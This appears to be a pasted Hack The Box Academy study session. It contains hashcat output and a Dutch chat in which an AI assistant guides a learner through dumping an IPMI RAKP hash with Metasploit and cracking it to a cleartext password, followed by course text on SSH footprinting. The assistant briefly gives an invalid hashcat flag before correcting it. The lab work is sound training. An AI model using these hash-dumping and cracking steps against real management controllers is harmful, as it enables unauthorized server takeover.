┌──(kali㉿kali)-[~]
└─$ hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-AMD Athlon 3000G with Radeon Vega Graphics, 2931/5862 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashfile 'ipmi.txt' on line 1 (admin:...d79cd88893061d493b6686ba63662348): Token length exception

* Token length exception: 1/1 hashes
  This error happens if the wrong hash type is specified, if the hashes are
  malformed, or if input is otherwise not as expected (for example, if the
  --username or --dynamic-x option is used but no username or dynamic-tag is present)

No hashes loaded.

Started: Fri Jan 23 08:46:17 2026
Stopped: Fri Jan 23 08:46:17 2026
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt --username
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-AMD Athlon 3000G with Radeon Vega Graphics, 2931/5862 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 513 MB (3125 MB free)

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

8b52e38c8200000006ac3132148b08d41f8ae00a2bb0d724caa92622c16788f7c50acc0c3adb0f9ea123456789abcdefa123456789abcdef140561646d696e:0dc85343d79cd88893061d493b6686ba63662348:trinity
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7300 (IPMI2 RAKP HMAC-SHA1)
Hash.Target......: 8b52e38c8200000006ac3132148b08d41f8ae00a2bb0d724caa...662348
Time.Started.....: Fri Jan 23 08:47:45 2026 (0 secs)
Time.Estimated...: Fri Jan 23 08:47:45 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:    36594 H/s (2.39ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4096/14344385 (0.03%)
Rejected.........: 0/4096 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> oooooo
Hardware.Mon.#01.: Util: 27%

Started: Fri Jan 23 08:46:59 2026
Stopped: Fri Jan 23 08:47:46 2026
                                                                
                                                      

 Gemini
Nieuwe chat
Mijn items
Afbeelding van
Afbeelding van
Afbeelding van
Gems
Gesprekken
Hack The Box Student Labs Explained
Web Server Reconnaissance and Next Steps
ik ga de eerste opdracht doen: Using SSH Secure Shell (SSH) is a network protocol that runs on port 22 by default and provides users such as system administrators a secure way to access a computer remotely. SSH can be configured with password authentication or passwordless using public-key authentication using an SSH public/private key pair. SSH can be used to remotely access systems on the same network, over the internet, facilitate connections to resources in other networks using port forwarding/proxying, and upload/download files to and from remote systems. SSH uses a client-server model, connecting a user running an SSH client application such as OpenSSH to an SSH server. While attacking a box or during a real-world assessment, we often obtain cleartext credentials or an SSH private key that can be leveraged to connect directly to a system via SSH. An SSH connection is typically much more stable than a reverse shell connection and can often be used as a "jump host" to enumerate and attack other hosts in the network, transfer tools, set up persistence, etc. If we obtain a set of credentials, we can use SSH to login remotely to the server by using the username @ the remote server IP, as follows: Basic Tools leonwintweer@htb[/htb]$ ssh Bob@10.10.10.10Bob@remotehost's password: *********Bob@remotehost# It is also possible to read local private keys on a compromised system or add our public key to gain SSH access to a specific user, as we'll discuss in a later section. As we can see, SSH is an excellent tool for securely connecting to a remote machine. It also provides a way for mapping local ports on the remote machine to our localhost, which can become handy at times. Using Netcat Netcat, ncat, or nc, is an excellent network utility for interacting with TCP/UDP ports. It can be used for many things during a pentest. Its primary usage is for connecting to shells, which we'll discuss later in this module. In addition to that, netcat can be used to connect to any listening port and interact with the service running on that port. For example, SSH is programmed to handle connections over port 22 to send all data and keys. We can connect to TCP port 22 with netcat: Basic Tools leonwintweer@htb[/htb]$ netcat 10.10.10.10 22SSH-2.0-OpenSSH_8.4p1 Debian-3 As we can see, port 22 sent us its banner, stating that SSH is running on it. This technique is called Banner Grabbing, and can help identify what service is running on a particular port. Netcat comes pre-installed in most Linux distributions. We can also download a copy for Windows machines from this link. There's another Windows alternative to netcat coded in PowerShell called PowerCat. Netcat can also be used to transfer files between machines, as we'll discuss later. Another similar network utility is socat, which has a few features that netcat does not support, like forwarding ports and connecting to serial devices. Socat can also be used to upgrade a shell to a fully interactive TTY. We will see a few examples of this in a later section. Socat is a very handy utility that should be a part of every penetration tester's toolkit. A standalone binary of Socat can be transferred to a system after obtaining remote code execution to get a more stable reverse shell connection. Using Tmux Terminal multiplexers, like tmux or Screen, are great utilities for expanding a standard Linux terminal's features, like having multiple windows within one terminal and jumping between them. Let's see some examples of using tmux, which is the more common of the two. If tmux is not present on our Linux system, we can install it with the following command: Basic Tools leonwintweer@htb[/htb]$ sudo apt install tmux -y Once we have tmux, we can start it by entering tmux as our command: The default key to input tmux commands prefix is [CTRL + B]. In order to open a new window in tmux, we can hit the prefix 'i.e. [CTRL + B]' and then hit C: We see the numbered windows at the bottom. We can switch to each window by hitting the prefix and then inputting the window number, like 0 or 1. We can also split a window vertically into panes by hitting the prefix and then [SHIFT + %]: We can also split into horizontal panes by hitting the prefix and then [SHIFT + "]: We can switch between panes by hitting the prefix and then the left or right arrows for horizontal switching or the up or down arrows for vertical switching. The commands above cover some basic tmux usage. It is a powerful tool and can be used for many things, including logging, which is very important during any technical engagement. This cheatsheet is a very handy reference. Also, this Introduction to tmux video by ippsec is worth your time. Using Vim Vim is a great text editor that can be used for writing code or editing text files on Linux systems. One of the great benefits of using Vim is that it relies entirely on the keyboard, so you do not have to use the mouse, which (once we get the hold of it) will significantly increase your productivity and efficiency in writing/editing code. We usually find Vim or Vi installed on compromised Linux systems, so learning how to use it allows us to edit files even on remote systems. Vim also has many other features, like extensions and plugins, which can significantly extend its usage and make for a great code editor. Let's see some of the basics of Vim. To open a file with Vim, we can add the file name after it: Basic Tools leonwintweer@htb[/htb]$ vim /etc/hosts If we want to create a new file, input the new file name, and Vim will open a new window with that file. Once we open a file, we are in read-only normal mode, which allows us to navigate and read the file. To edit the file, we hit i to enter insert mode, shown by the "-- INSERT --" at the bottom of Vim. Afterward, we can move the text cursor and edit the file: Once we are finished editing a file, we can hit the escape key esc to get out of insert mode, back into normal mode. When we are in normal mode, we can use the following keys to perform some useful shortcuts: CommandDescriptionxCut characterdwCut wordddCut full lineywCopy wordyyCopy full linepPaste Tip: We can multiply any command to run multiple times by adding a number before it. For example, '4yw' would copy 4 words instead of one, and so on. If we want to save a file or quit Vim, we have to press: to go into command mode. Once we do, we will see any commands we type at the bottom of the vim window: There are many commands available to us. The following are some of them: CommandDescription:1Go to line number 1.:wWrite the file, save:qQuit:q!Quit without saving:wqWrite and quit Vim is a very powerful tool and has many other commands and features. This cheatsheet is an excellent resource for further unlocking the power of Vim. / 1 spawns left Waiting to start... Optional Exercises Challenge your understanding of the Module content and answer the optional question(s) below. These are considered supplementary content and are not required to complete the Module. You can reveal the answer at any time to check your work. Target(s): Click here to spawn the target system! Apply what you learned in this section to grab the banner of the above server and submit it as the answer.
Obsidian Vault op Samsung met OneDrive
Pentest Cursus Introductie voor Obsidian
Eerdere Chats Terugvinden
Hack The Box CPTS Certificering Uitleg
Oude chats terugvinden in Gemini
Obsidian Klembord Probleem Oplossen
AI Project Opstarten: Verschillende Methoden
Cybersecurity Certificering: OSCP, eJPT, HTB
Nederlandse Bug Bounty Programma's: Succes Tips
Bug Rapportage Gifty Security Program
Terheijden, Nederland Op basis van jouw plaatsen (Thuis) Locatie updaten
Gesprek met Gemini

What username is configured for accessing the host via IPMI?


+10 Streak pts


+ 0 What is the account's cleartext password?

Je bent nu op het punt waar de theorie overgaat in actie. Omdat de Nmap-scan heeft bevestigd dat poort 623 UDP open is en IPMI-2.0 ondersteunt, gaan we nu de buit binnenhalen.

Gebruik de Metasploit module om de gebruikersnaam en de hash te bemachtigen.
🚀 Stap 1: Hashes Dumpen

Open een nieuwe terminal of gebruik je bestaande sessie:
Bash

msfconsole -q
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS 10.129.4.160
run

🔍 Stap 2: Analyseer de Output

Zodra de module klaar is, kijk je goed naar de regels die beginnen met [+].

    De Username staat aan het begin van de gevonden hash-regel (vaak iets als ADMIN of Administrator).

    De module zal proberen om veelvoorkomende wachtwoorden direct te kraken.

🔨 Stap 3: Het wachtwoord kraken (indien nodig)

Mocht Metasploit de hash vinden maar het wachtwoord niet direct weergeven, kopieer dan de volledige hash naar een bestand genaamd ipmi.hash en gebruik Hashcat.

IPMI-hashes gebruiken het SHA1-gebaseerde RAKP-protocol, wat in Hashcat mode 7300 is:
Bash

hashcat -m 7300 ipmi.hash /usr/share/wordlists/rockyou.txt --break-system-packages

💡 Waarom dit werkt

Het RAKP-protocol in IPMI 2.0 heeft een fundamentele fout: de server stuurt de "HMAC-SHA1" van het wachtwoord naar de client om de identiteit van de server te bewijzen, voordat de client zijn eigen wachtwoord hoeft te bewijzen. Dit stelt ons in staat om de hash offline aan te vallen zonder de server verder lastig te vallen.

Wat is de output van je Metasploit run commando? Als je de hash ziet, kan ik je direct vertellen wat de gebruikersnaam is en of het wachtwoord een van de bekende defaults is.

[+] 10.129.4.160:623 - IPMI - Hash found: admin:8b52e38c8200000006ac3132148b08d41f8ae00a2bb0d724caa92622c16788f7c50acc0c3adb0f9ea123456789abcdefa123456789abcdef140561646d696e:0dc85343d79cd88893061d493b6686ba63662348                     

[*] Scanned 1 of 1 hosts (100% complete)                                                                                                                                                                                                    

[*] Auxiliary module execution completed                                                                                                                                                                                                    

msf auxiliary(scanner/ipmi/ipmi_dumphashes) >                                                                                                                                                                                               

                                                                                                                                                                                                                                            

                                                    

Lekker! Je hebt de hash binnen. Nu kunnen we de vragen van de module beantwoorden.
1. De Gebruikersnaam

Kijk naar het begin van de "Hash found" regel. De gebruikersnaam staat vóór de eerste dubbele punt: admin
2. Het Wachtwoord (Crack de Hash)

Metasploit heeft de hash gevonden, maar kon hem niet direct kraken met de standaardlijst. We gaan dit nu doen met Hashcat op jouw Kali machine.

Stap-voor-stap:

    Kopieer de volledige hash-regel vanaf admin:... tot aan het einde.

    Sla dit op in een bestand genaamd ipmi.txt:
    Bash

echo "admin:8b52e38c8200000006ac3132148b08d41f8ae00a2bb0d724caa92622c16788f7c50acc0c3adb0f9ea123456789abcdefa123456789abcdef140561646d696e:0dc85343d79cd88893061d493b6686ba63662348" > ipmi.txt

Start de aanval met de rockyou.txt woordenlijst:
Bash

    hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt --break-system-packages

💡 Wat we verwachten

Omdat dit een oefening is, zal het wachtwoord waarschijnlijk niet al te ingewikkeld zijn. Zodra Hashcat klaar is, zie je de status op Cracked springen en staat het wachtwoord achter de hash.
Samenvatting voor je antwoorden:

    Username: admin

    Password: (Dit verschijnt in je terminal na het Hashcat commando).

Laat je even weten wat er uit de kraak komt? Meestal is het iets als admin, password of een simpele variatie daarop!

                                                                                                                   

┌──(kali㉿kali)-[~]

└─$ hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt --break-system-packages

hashcat: unrecognized option '--break-system-packages'

Invalid argument specified.


                                                                   

Mijn fout! De vlag --break-system-packages is alleen bedoeld voor pip (Python) en niet voor hashcat. Hashcat is een losstaand programma dat rechtstreeks op je hardware draait, dus die vlag is daar niet nodig.

Probeer het commando zonder die vlag:
Bash

hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt

Wat als het te lang duurt?

Mocht rockyou.txt niet snel genoeg gaan, kun je ook een kortere lijst proberen of kijken of de standaardwachtwoorden werken. In jouw geval is de gebruikersnaam al admin (met kleine letters), wat afwijkt van de standaard ADMIN.

Check ook even dit: Als hashcat klaagt dat hij je videokaart of CPU niet kan gebruiken, voeg dan de vlag -d 1 of --force toe:
Bash

hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt --force

De Antwoorden

Zodra de scan klaar is, zie je onderaan de regel de hash met het wachtwoord erachter geplakt.

    Username: admin

    Password: (Het resultaat van Hashcat)

Wat komt er te staan achter de laatste dubbele punt in de "Cracked" regel van Hashcat? Dat is je cleartext wachtwoord!

┌──(kali㉿kali)-[~]

└─$ echo "admin:8b52e38c8200000006ac3132148b08d41f8ae00a2bb0d724caa92622c16788f7c50acc0c3adb0f9ea123456789abcdefa123456789abcdef140561646d696e:0dc85343d79cd88893061d493b6686ba63662348" > ipmi.txt

                                                                                                                   

┌──(kali㉿kali)-[~]

└─$ hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt --break-system-packages

hashcat: unrecognized option '--break-system-packages'

Invalid argument specified.


                                                                                                                   

┌──(kali㉿kali)-[~]

└─$ hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt                        

hashcat (v7.1.2) starting


/usr/share/wordlists/rockyou.txt: No such file or directory


Started: Fri Jan 23 08:45:03 2026

Stopped: Fri Jan 23 08:45:03 2026

                                                                                                                   

┌──(kali㉿kali)-[~]

└─$ locate rockyou.txt            

/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz

/usr/share/wordlists/rockyou.txt.gz

Klassiek Kali-probleem: de rockyou.txt lijst zit standaard nog "ingepakt" om ruimte te besparen. Hashcat kan niet direct in een .gz bestand kijken, dus je moet hem even uitpakken.

Omdat je de file al hebt gevonden in /usr/share/wordlists/, fixen we dit in twee tellen.
🛠️ De Fix

    Pak de lijst uit naar de juiste map:
    Bash

sudo gunzip /usr/share/wordlists/rockyou.txt.gz

Draai Hashcat opnieuw:
Bash

    hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt

💡 Wat als het nóg niet werkt?

Mocht Hashcat klagen over "No devices found" of "Check kernels", voeg dan de --force vlag toe:
Bash

hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt --force

Waar we op wachten

Zodra de status op Cracked springt, zie je een regel als deze: admin:8b52e38c8...:0dc8534...:WACHTWOORD

Het gedeelte na de allerlaatste dubbele punt is je cleartext password.

Laat me weten wat het wachtwoord is zodra hij klaar is, dan kunnen we de module afronden! (Dit zou op een moderne machine slechts enkele seconden moeten duren voor een standaard wachtwoord).


OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]

====================================================================================================================================================

* Device #01: cpu-haswell-AMD Athlon 3000G with Radeon Vega Graphics, 2931/5862 MB (1024 MB allocatable), 4MCU


Minimum password length supported by kernel: 0

Maximum password length supported by kernel: 256

Minimum salt length supported by kernel: 0

Maximum salt length supported by kernel: 256


Hashfile 'ipmi.txt' on line 1 (admin:...d79cd88893061d493b6686ba63662348): Token length exception


* Token length exception: 1/1 hashes

  This error happens if the wrong hash type is specified, if the hashes are

  malformed, or if input is otherwise not as expected (for example, if the

  --username or --dynamic-x option is used but no username or dynamic-tag is present)


No hashes loaded.


Started: Fri Jan 23 08:46:17 2026

Stopped: Fri Jan 23 08:46:17 2026

                                                                                                                                                                                                                                            

┌──(kali㉿kali)-[~]

└─$ 

Ah, de beruchte "Token length exception". Dit gebeurt omdat Hashcat standaard niet verwacht dat er een gebruikersnaam (admin:) aan het begin van de regel staat, tenzij je dat expliciet aangeeft.

Je hebt twee simpele manieren om dit op te lossen.
Optie 1: De --username vlag (Snelste)

Voeg simpelweg --username toe aan je commando. Hashcat begrijpt dan dat hij het eerste deel (tot de dubbele punt) moet negeren tijdens het kraken, maar wel moet onthouden voor het resultaat.
Bash

hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt --username

Optie 2: De gebruikersnaam uit het bestand halen

Als de vlag om wat voor reden dan ook niet werkt, kun je de gebruikersnaam handmatig verwijderen uit je tekstbestand zodat alleen de hash-reeks overblijft:

    Bewerk het bestand: nano ipmi.txt

    Verwijder admin: aan het begin van de regel.

    Sla op (CTRL+O, Enter) en sluit af (CTRL+X).

    Draai Hashcat zonder de username vlag:
    Bash

    hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt

Wat gebeurt er als het "Cracked" is?

Zodra Hashcat de juiste match vindt in rockyou.txt, stopt hij en zie je de status Cracked. Het wachtwoord staat dan helemaal aan het einde van de regel.

Probeer Optie 1 even. Wat verschijnt er achter de hash? (Hint: het is vaak een heel simpel, veelgebruikt woord in de IT-wereld).

──(kali㉿kali)-[~]

└─$ hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt --username

hashcat (v7.1.2) starting


OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]

====================================================================================================================================================

* Device #01: cpu-haswell-AMD Athlon 3000G with Radeon Vega Graphics, 2931/5862 MB (1024 MB allocatable), 4MCU


Minimum password length supported by kernel: 0

Maximum password length supported by kernel: 256

Minimum salt length supported by kernel: 0

Maximum salt length supported by kernel: 256


Hashes: 1 digests; 1 unique digests, 1 unique salts

Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates

Rules: 1


Optimizers applied:

* Zero-Byte

* Not-Iterated

* Single-Hash

* Single-Salt


ATTENTION! Pure (unoptimized) backend kernels selected.

Pure kernels can crack longer passwords, but drastically reduce performance.

If you want to switch to optimized kernels, append -O to your commandline.

See the above message to find out about the exact limits.


Watchdog: Temperature abort trigger set to 90c


Host memory allocated for this attack: 513 MB (3125 MB free)


Dictionary cache built:

* Filename..: /usr/share/wordlists/rockyou.txt

* Passwords.: 14344392

* Bytes.....: 139921507

* Keyspace..: 14344385

* Runtime...: 1 sec


8b52e38c8200000006ac3132148b08d41f8ae00a2bb0d724caa92622c16788f7c50acc0c3adb0f9ea123456789abcdefa123456789abcdef140561646d696e:0dc85343d79cd88893061d493b6686ba63662348:trinity

                                                          

Session..........: hashcat

Status...........: Cracked

Hash.Mode........: 7300 (IPMI2 RAKP HMAC-SHA1)

Hash.Target......: 8b52e38c8200000006ac3132148b08d41f8ae00a2bb0d724caa...662348

Time.Started.....: Fri Jan 23 08:47:45 2026 (0 secs)

Time.Estimated...: Fri Jan 23 08:47:45 2026 (0 secs)

Kernel.Feature...: Pure Kernel (password length 0-256 bytes)

Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)

Guess.Queue......: 1/1 (100.00%)

Speed.#01........:    36594 H/s (2.39ms) @ Accel:1024 Loops:1 Thr:1 Vec:8

Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)

Progress.........: 4096/14344385 (0.03%)

Rejected.........: 0/4096 (0.00%)

Restore.Point....: 0/14344385 (0.00%)

Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1

Candidate.Engine.: Device Generator

Candidates.#01...: 123456 -> oooooo

Hardware.Mon.#01.: Util: 27%


Started: Fri Jan 23 08:46:59 2026

Stopped: Fri Jan 23 08:47:46 2026

                                              

Gefeliciteerd! Je hebt hem. De Matrix-referenties zijn populair in de HTB-wereld, en daar is er weer één.
🚩 De resultaten voor je opdracht:

Kijk naar de regel net boven de "Session" informatie. Daar staat de hash met het wachtwoord erachter geplakt:

    Username: admin

    Cleartext Password: trinity

🛡️ Wat hebben we geleerd?

Je hebt zojuist een volledige aanvalsketen op IPMI uitgevoerd:

    Recon: Met nmap ontdekt dat poort 623 UDP open staat en versie 2.0 draait.

    Exploit: Met Metasploit misbruik gemaakt van het RAKP-protocol om een wachtwoord-hash te forceren zonder in te loggen.

    Cracking: Met hashcat (mode 7300) een offline dictionary attack uitgevoerd om de hash om te zetten naar leesbare tekst.

💡 Waarom is dit gevaarlijk?

Met de combinatie admin / trinity kun je nu waarschijnlijk inloggen op de web-interface van de server (iLO, iDRAC of vergelijkbaar). Vanaf daar kun je de server herstarten, de console overnemen of zelfs de firmware aanpassen. Het is een "Game Over" scenario voor de fysieke veiligheid van de server.

Heb je de antwoorden kunnen invullen in de HTB Academy? Als er nog een volgende vraag is of een andere service die we moeten bekijken, laat het me weten!

What username is configured for accessing the host via IPMI?


+10 Streak pts


+ 0 What is the account's cleartext password?

Je hebt de aanvalsketen nu succesvol afgerond! Op basis van je eerdere Hashcat-output zijn dit de antwoorden die je in de HTB-velden kunt invoeren:

    Username: admin

    Cleartext Password: trinity

Samenvatting van de aanval

Je hebt zojuist een klassieke IPMI RAKP-vulnerability exploit uitgevoerd. Dit is een van de meest kritieke bevindingen tijdens een interne pentest omdat:

    Protocolfout: De fout zit in de IPMI 2.0-specificatie zelf. De server stuurt een HMAC-SHA1 hash naar de client om de identiteit van de server te bewijzen voordat de client zich hoeft te authenticeren.

    Offline Cracking: Hierdoor kunnen we de hash onderscheppen en op onze eigen machine (met de rekenkracht van je GPU of CPU via Hashcat) miljoenen wachtwoorden per seconde proberen zonder dat de server dit merkt.

    Volledige Controle: Met deze inloggegevens krijg je toegang tot de Baseboard Management Controller (BMC). Hiermee kun je de server fysiek beheren: herstarten, de console overnemen (KVM) of zelfs een eigen ISO-bestand booten om het OS te omzeilen.

Volgende Stap

Nu je de hardware-laag hebt "geowned", is de machine meestal volledig onder jouw controle. In een HTB-omgeving is dit vaak het moment waarop je kunt inloggen op de webinterface van de BMC (meestal op poort 80 of 443 van hetzelfde IP) om verdere informatie te verzamelen of de server te herstarten.

Heb je de punten voor deze module binnen, of is er nog een andere service op de lijst waar we naar moeten kijken?

vertaal:


Footprinting

 


Page 17

Linux Remote Management Protocols


Linux Remote Management Protocols

In the world of Linux distributions, there are many ways to manage

the servers remotely. For example, let us imagine that we are in one of

many locations and one of our employees who just went to a customer in

another city needs our help because of an error that he cannot solve.

Efficient troubleshooting will look difficult over a phone call in most

cases, so it is beneficial if we know how to log onto the remote system

to manage it.

These applications and services can be found on almost every server

in the public network. It is time-saving since we do not have to be

physically present at the server, and the working environment still

looks the same. These protocols and applications for remote systems

management are an exciting target for these reasons. If the

configuration is incorrect, we, as penetration testers, can even quickly

gain access to the remote system. Therefore, we should familiarize

ourselves with the most important protocols, servers, and applications

for this purpose.

SSH

Secure Shell (SSH) enables two computers to establish an encrypted and direct connection within a possibly insecure network on the standard port TCP 22.

This is necessary to prevent third parties from intercepting the data

stream and thus intercepting sensitive data. The SSH server can also be

configured to only allow connections from specific clients. An advantage

of SSH is that the protocol runs on all common operating systems. Since

it is originally a Unix application, it is also implemented natively on

all Linux distributions and MacOS. SSH can also be used on Windows,

provided we install an appropriate program. The well-known OpenBSD SSH (OpenSSH) server on Linux distributions is an open-source fork of the original and commercial SSH server from SSH Communication Security. Accordingly, there are two competing protocols: SSH-1 and SSH-2.

SSH-2, also known as SSH version 2, is a more advanced

protocol than SSH version 1 in encryption, speed, stability, and

security. For example, SSH-1 is vulnerable to MITM attacks, whereas SSH-2 is not.

We can imagine that we want to manage a remote host. This can be done

via the command line or GUI. Besides, we can also use the SSH protocol

to send commands to the desired system, transfer files, or do port

forwarding. Therefore, we need to connect to it using the SSH protocol

and authenticate ourselves to it. In total, OpenSSH has six different

authentication methods:


Password authentication

Public-key authentication

Host-based authentication

Keyboard authentication

Challenge-response authentication

GSSAPI authentication

We will take a closer look at and discuss one of the most commonly

used authentication methods. In addition, we can learn more about the

other authentication methods here among others.


Public Key Authentication

In a first step, the SSH server and client authenticate themselves to each other. The server sends its public host key

to the client, which the client uses to verify the server's identity.

Only when contact is first established there is a risk of a third party

interposing itself between the two participants and thus intercepting

the connection. A host key cannot be imitated because it is a unique public-private key pair,

and an attacker cannot forge the private key’s signature without access

to it, assuming the client properly verifies the public key against a

trusted source.

After server authentication, however, the client must also prove to

the server that it has access authorization. However, the SSH server is

already in possession of the encrypted hash value of the password set

for the desired user. As a result, users have to enter the password

every time they log on to another server during the same session. For

this reason, an alternative option for client-side authentication is the

use of a public key and private key pair.

The private key is created individually for the user's own computer

and secured with a passphrase that should be longer than a typical

password. The private key is stored exclusively on our own computer and

always remains secret. If we want to establish an SSH connection, we

first enter the passphrase and thus open access to the private key.

Public keys are also stored on the server. The server creates a

cryptographic problem with the client's public key and sends it to the

client. The client, in turn, decrypts the problem with its own private

key, sends back the solution, and thus informs the server that it may

establish a legitimate connection. During a session, users only need to

enter the passphrase once to connect to any number of servers. At the

end of the session, users log out of their local machines, ensuring that

no third party who gains physical access to the local machine can

connect to the server.

Default Configuration

The sshd_config

file, responsible for the OpenSSH server, has only a few of the

settings configured by default. However, the default configuration

includes X11 forwarding, which contained a command injection

vulnerability in version 7.2p1 of OpenSSH in 2016. Nevertheless, we do

not need a GUI to manage our servers.


Default Configuration


Linux Remote Management Protocols


leonwintweer@htb[/htb]$ cat /etc/ssh/sshd_config | grep -v "#" | sed -r '/^\s*$/d'Include /etc/ssh/sshd_config.d/*.conf

ChallengeResponseAuthentication no

UsePAM yes

X11Forwarding yes

PrintMotd no

AcceptEnv LANG LC_*

Subsystem sftp /usr/lib/openssh/sftp-server

Most settings in this configuration file are commented out and require manual configuration.

Dangerous Settings

Despite the SSH protocol being one of the most secure protocols

available today, some misconfigurations can still make the SSH server

vulnerable to easy-to-execute attacks. Let us take a look at the

following settings:

SettingDescriptionPasswordAuthentication yesAllows password-based authentication.PermitEmptyPasswords yesAllows the use of empty passwords.PermitRootLogin yesAllows to log in as the root user.Protocol 1Uses an outdated version of encryption.X11Forwarding yesAllows X11 forwarding for GUI applications.AllowTcpForwarding yesAllows forwarding of TCP ports.PermitTunnelAllows tunneling.DebianBanner yesDisplays a specific banner when logging in.

Allowing password authentication allows us to brute-force a known

username for possible passwords. Many different methods can be used to

guess the passwords of users. For this purpose, specific patterns

are usually used to mutate the most commonly used passwords and,

frighteningly, correct them. This is because we humans are lazy and do

not want to remember complex and complicated passwords. Therefore, we

create passwords that we can easily remember, and this leads to the fact

that, for example, numbers or characters are added only at the end of

the password. Believing that the password is secure, the mentioned

patterns are used to guess precisely such "adjustments" of these

passwords. However, some instructions and hardening guides can be used to harden our SSH servers.

Footprinting the Service

One of the tools we can use to fingerprint the SSH server is ssh-audit.

It checks the client-side and server-side configuration and shows some

general information and which encryption algorithms are still used by

the client and server. Of course, this could be exploited by attacking

the server or client at the cryptic level later.


SSH-Audit


Linux Remote Management Protocols


leonwintweer@htb[/htb]$ git clone https://github.com/jtesta/ssh-audit.git && cd ssh-auditleonwintweer@htb[/htb]$ ./ssh-audit.py 10.129.14.132# general(gen) banner: SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.3

(gen) software: OpenSSH 8.2p1

(gen) compatibility: OpenSSH 7.4+, Dropbear SSH 2018.76+

(gen) compression: enabled (zlib@openssh.com) # key exchange algorithms(kex) curve25519-sha256 -- [info] available since OpenSSH 7.4, Dropbear SSH 2018.76

(kex) curve25519-sha256@libssh.org -- [info] available since OpenSSH 6.5, Dropbear SSH 2013.62

(kex) ecdh-sha2-nistp256 -- [fail] using weak elliptic curves

`- [info] available since OpenSSH 5.7, Dropbear SSH 2013.62

(kex) ecdh-sha2-nistp384 -- [fail] using weak elliptic curves

`- [info] available since OpenSSH 5.7, Dropbear SSH 2013.62

(kex) ecdh-sha2-nistp521 -- [fail] using weak elliptic curves

`- [info] available since OpenSSH 5.7, Dropbear SSH 2013.62

(kex) diffie-hellman-group-exchange-sha256 (2048-bit) -- [info] available since OpenSSH 4.4

(kex) diffie-hellman-group16-sha512 -- [info] available since OpenSSH 7.3, Dropbear SSH 2016.73

(kex) diffie-hellman-group18-sha512 -- [info] available since OpenSSH 7.3

(kex) diffie-hellman-group14-sha256 -- [info] available since OpenSSH 7.3, Dropbear SSH 2016.73# host-key algorithms(key) rsa-sha2-512 (3072-bit) -- [info] available since OpenSSH 7.2

(key) rsa-sha2-256 (3072-bit) -- [info] available since OpenSSH 7.2

(key) ssh-rsa (3072-bit) -- [fail] using weak hashing algorithm

`- [info] available since OpenSSH 2.5.0, Dropbear SSH 0.28

`- [info] a future deprecation notice has been issued in OpenSSH 8.2: https://www.openssh.com/txt/release-8.2

(key) ecdsa-sha2-nistp256 -- [fail] using weak elliptic curves

`- [warn] using weak random number generator could reveal the key

`- [info] available since OpenSSH 5.7, Dropbear SSH 2013.62

(key) ssh-ed25519 -- [info] available since OpenSSH 6.5

...SNIP...

The first thing we can see in the first few lines of the output is

the banner that reveals the version of the OpenSSH server. The previous

